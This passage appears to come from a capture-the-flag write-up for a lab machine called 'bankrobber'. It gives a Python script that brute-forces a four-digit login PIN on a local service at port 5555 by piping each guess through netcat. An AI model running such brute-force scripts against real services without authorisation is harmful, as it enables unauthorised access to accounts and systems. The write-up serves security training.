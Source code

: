 ![5555](./bankrobber/5555.png)

It looks like a 4 digit pin is needed to login... this can be easily brute forced with a Python3 script:

```python
import string
import itertools
import subprocess

for c in itertools.product(string.digits, repeat=4):
  c = ''.join(c).encode()
  print(f'[*] trying {c.decode()} ...')
  p = subprocess.Popen('nc 127.0.0.1 5555', 
                       stdin=subprocess.PIPE, 
                       stdout=subprocess.PIPE, 
                       stderr=subprocess.STDOUT, 
                       shell=True)
  stdout, stderr = p.communicate(c + b'\n')
  p.terminate()
  if b'Access denied, disconnecting client' not in stdout:
    print(f'[+] found {c.decode()} !')
    print(stdout.decode())
    exit(1)
  if stderr:
    print(stderr.decode())
```

Running this script gives the following:

![pin](./bankrobber/pin.png)
